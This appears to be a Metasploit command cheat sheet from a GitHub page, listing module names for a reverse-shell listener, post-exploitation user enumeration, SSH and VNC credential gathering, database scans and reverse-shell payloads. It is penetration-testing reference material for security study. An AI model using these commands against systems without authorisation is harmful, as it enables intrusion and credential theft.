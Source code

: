 ## ⚡ Exploit Techniques
| Command                              | Description                                      |
|--------------------------------------|--------------------------------------------------|
| `use exploit/multi/handler`          | Setup a listener for a reverse shell (handler)   |
| `setg <global_option> <value>`       | Set global options for all modules (e.g., `setg LHOST <ip>`) |
| `run post/windows/gather/enum_logged_on_users` | Post-exploitation gather logged-on users       |

## 🔑 Credential Gathering
| Command                              | Description                                      |
|--------------------------------------|--------------------------------------------------|
| `use auxiliary/gather/enum_ssh`      | Enumerate SSH users and keys                     |
| `use auxiliary/gather/enum_vnc`      | Enumerate VNC users and configurations           |
| `use auxiliary/scanner/http/dir_scanner` | Directory scanner for web apps                 |

## 📈 MetasploitDB 
| Command                      | Description                                          |
|------------------------------|------------------------------------------------------|
| `db_nmap <target>`            | Run `nmap` scan and save the results to the database |
| `hosts`                       | List all discovered hosts                            |
| `services`                    | List all discovered services                         |
| `vulns`                       | List all discovered vulnerabilities                  |

## 🛑 Common Payloads
| Payload                                      | Description                          |
|----------------------------------------------|--------------------------------------|
| `windows/x64/meterpreter/reverse_tcp`       | Reverse TCP Meterpreter payload      |
| `linux/x64/shell_reverse_tcp`               | Reverse shell payload for Linux      |
| `php/meterpreter/reverse_tcp`               | Reverse TCP Meterpreter payload for PHP |
| `windows/x64/shell_reverse_tcp`             | Reverse shell for Windows            |

## 🗂️ Saving and Reusing Sessions
| Command                              | Description                               |
|--------------------------------------|-------------------------------------------|
| `save`                               | Save the current workspace                |
| `workspace -a <workspace_name>`      | Create a new workspace                    |
| `workspace <workspace_name>`         | Switch to a specific workspace            |

---
---
---
---
---